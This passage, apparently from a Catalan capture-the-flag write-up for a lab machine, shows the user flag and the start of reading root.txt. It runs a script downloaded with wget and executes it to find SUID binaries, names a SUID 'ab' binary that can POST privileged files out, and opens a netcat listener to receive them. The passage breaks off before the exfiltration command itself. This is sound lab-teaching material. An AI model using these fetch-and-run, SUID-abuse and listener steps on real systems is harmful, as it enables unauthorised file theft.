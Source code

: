 Trobem la flag de user amb un nom diferent, no podríem obtenir-lo mai des del LLM.

![User flag](../../../assets/images/securitrona/20250628_222819_image.png)

## Accés a la flag de root.txt

Busco si hi ha algun binari SUID, sudo o amb capabilities que estigui indicat a [GTFOBins](https://gtfobins.github.io/) permeti elevar privilegis amb la meva eina [GTFOLenam](https://github.com/Len4m/gtfolenam).

En una carpeta amb permisos d'escriptura executem.

```bash
wget https://raw.githubusercontent.com/Len4m/gtfolenam/main/gtfolenam.sh && chmod +x gtfolenam.sh && ./gtfolenam.sh
```

El script troba un binari `ab` amb el bit SUID activat i ha trobat la referència de GTFOBins.

![GTFOLenam](../../../assets/images/securitrona/20250628_223636_image.png)

Segons podem observar a GTFOBins, podem llegir fitxers de forma privilegiada enviant-los mitjançant POST.

Si intentem elevar privilegis no ho aconseguirem, o no he preparat cap forma intencionada d'aconseguir-ho. Ja veurem si algú ho aconsegueix, però sí que podem llegir la flag de root.

A la nostra màquina atacant ens posem a l'escolta amb netcat.

```bash
nc -lvnp 8000
```

